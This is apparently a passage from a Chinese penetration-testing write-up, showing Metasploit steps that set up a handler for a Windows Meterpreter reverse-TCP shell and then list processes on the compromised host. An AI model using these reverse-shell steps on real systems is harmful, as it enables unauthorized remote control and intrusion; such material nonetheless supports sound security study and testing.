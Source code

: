**如果限制上传大小同样可以hex解决上传大小问题。**

以下为部分msf操作实例
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
msf exploit(handler) > exploit -l
meterpreter > ps
```

```bash
Process List 
============

PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----

0 0 [System Process]
4 0 System x86 0 NT AUTHORITY\SYSTEM
304 4 smss.exe x86 0 NT AUTHORITY\SYSTEM\SystemRoot\System32\smss.exe
352 304 csrss.exe x86 0 NT AUTHORITY\SYSTEM \?? \C:\WINDOWS\system32\csrss.exe
376 304 winlogon.exe x86 0 NT AUTHORITY\SYSTEM \?? \C:\WINDOWS\system32\winlogon.exe
424 376 services.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\services.exe
436 376 lsass.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\lsass.exe
620 424 vmacthlp.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\VMware\VMware Tools\vmacthlp.exe
636 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\svchost.exe
708 424 svchost.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\svchost.exe
768 424 svchost.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\svchost.exe
812 424 svchost.exe x86 0 NT AUTHORITY\LOCAL SERVICE C:\WINDOWS\system32\svchost.exe
828 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
1000 424 spoolsv.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\spoolsv.exe
1028 424 msdtc.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\msdtc.exe
1160 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
1228 424 inetinfo.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\inetsrv\inetinfo.exe
1252 424 sqlservr.exe x86 0 NT AUTHORITY\SYSTEM C:\PROGRA\~1\MICROS~1\MSSQL\binn\sqlservr.exe
1304 424 mysqld.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\MySQL\MySQL Server 5.1\bin\mysqld.exe
1348 424 svchost.exe x86 0 NT AUTHORITY\LOCAL SERVICE C:\WINDOWS\system32\svchost.exe
1408 424 vmtoolsd.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
1472 424 mssearch.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\Common Files\System\MSSearch\Bin\mssearch.exe
1720 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
2128 2084 explorer.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\Explorer.EXE
2208 2128 vmtoolsd.exe x86 0 xxxxxxxxxxxx\Administrator C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
2232 2128 ctfmon.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\ctfmon.exe
2244 2128 sqlmangr.exe x86 0 xxxxxxxxxxxx\Administrator C:\Program Files\Microsoft SQL Server\80\Tools\Binn\sqlmangr.exe
2396 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
2440 424 dllhost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\dllhost.exe
3008 2128 cmd.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\cmd.exe
3024 3008 conime.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\conime.exe
3180 636 wmiprvse.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\wbem\wmiprvse.exe
3248 828 wuauclt.exe xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\wuauclt.exe
3380 376 logon.scr x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\System32\logon.scr
```
